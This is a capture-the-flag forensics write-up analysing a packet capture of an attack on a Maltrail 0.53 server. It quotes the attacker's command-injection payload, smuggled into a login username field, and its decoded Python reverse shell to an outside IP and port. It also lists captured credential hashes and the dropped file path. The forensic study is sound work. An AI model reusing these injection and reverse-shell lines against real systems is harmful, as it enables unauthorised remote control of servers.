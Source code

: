 # **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

So, at first, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So download of wireshark and installation could and did prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:
![A-packets analysis](./assets/image.png)

1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:  
    ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

    The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:
![A LOT OF PACKETS](./assets/image-3.png)
A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.
![A lot to just 87 packets](./assets/image-4.png)
Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

    1. At 2624-2625 the shell executes an `ls` command

![ls command](./assets/image-5.png)

    2. At 2648 we see that the `ls` returned a `/`-esque output

![Looks like an "ls /" output](./assets/image-6.png)

    3. Then, at 2742-2743, it does a `cd` to `/tmp`

![cd to `/tmp`](./assets/image-7.png)

    4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`

![hmm.sh](./assets/image-8.png)

To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)
